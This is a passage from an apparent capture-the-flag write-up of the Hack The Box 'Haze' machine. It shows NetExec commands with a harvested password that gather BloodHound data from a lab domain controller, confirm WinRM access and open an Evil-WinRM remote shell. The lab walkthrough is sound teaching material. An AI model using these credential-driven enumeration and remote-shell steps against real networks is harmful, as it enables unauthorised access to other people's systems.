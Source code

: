 ```bash
➜  Haze nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --bloodhound --dns-server 10.10.11.61 --collection all
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             Resolved collection methods: rdp, group, trusts, acl, container, localadmin, objectprops, psremote, dcom, session
LDAP        10.10.11.61     389    DC01             Done in 00M 20S
LDAP        10.10.11.61     389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.61_2025-06-26_075314_bloodhound.zip
```

Lets see what mark.adams can do or something specail at BH.

![alt text](../assets/images/haze13.png)

First!!!! we are member of Remote Management Users so we can use evil-winrm

```bash
➜  Haze nxc winrm DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' 
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```

but not user.txt yet

```bash
➜  Haze evil-winrm -i DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents> cd ..
*Evil-WinRM* PS C:\Users\mark.adams> cd Desktop
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> dir
```